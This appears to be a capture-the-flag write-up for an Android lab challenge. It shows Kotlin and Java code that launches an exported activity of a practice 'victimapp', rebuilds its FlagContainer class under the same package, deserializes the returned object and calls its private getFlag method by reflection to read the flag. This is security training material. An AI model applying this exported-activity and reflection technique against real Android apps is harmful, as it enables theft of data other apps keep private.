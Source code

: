 ### Flag
> `FLAG{Gutta_cavat_lapidem_non_vi_sed_saepe_cadendo}`

---

## 3 Serial intent
- the app has an exported SerialActivity whose code we have
- we see this uses another class, FlagContainer which we have as well
- it uses that to serialize the flag, we can reproduce and invert the behaviour
- to make the deserialization process work, we need to match the exact package name for the FlagContainer, so we reproduce folder structure to implement the FlagContainer class (also because the getFlag method is private and we need reflections to call it)
  ```kotlin
  package com.example.victimapp; //!!! notice this

  public class FlagContainer implements Serializable {
      private String[] parts;
      private ArrayList<Integer> perm;

      public FlagContainer(String[] parts, ArrayList<Integer> perm) {
          this.parts = parts;
          this.perm = perm;
      }

      private String getFlag() {
          int n = parts.length;
          int i;
          String b64 = new String();
          for (i=0; i<n; i++) {
              b64 += parts[perm.get(i)];
          }

          byte[] flagBytes = Base64.decode(b64, Base64.DEFAULT);
          String flag = new String(flagBytes, Charset.defaultCharset());

          return flag;
      }
  }
  ```

- so we can use this to create our intent exploiter:
  ```kotlin
  val intentInspector=registerForActivityResult(ActivityResultContracts.StartActivityForResult()){res ->
        val intent=res.data
        val f: FlagContainer = intent.getSerializableExtra("flag")  as FlagContainer
        val m: Method=f.javaClass.getDeclaredMethod("getFlag")
        m.isAccessible=true
        val flag=m.invoke(f);
        val flagString=flag!!.toString()
        log("THE FLAG IS: $flagString")
        findViewById<TextView>(R.id.flag_result).text=flagString
    }
  ```
- then we just need to launch the intent with correct package/intent
  ```kotlin
  intentInspector.launch(
    Intent().setComponent(
        ComponentName("com.example.victimapp", "$victimPacakge.SerialActivity")
      )
    )
  ```

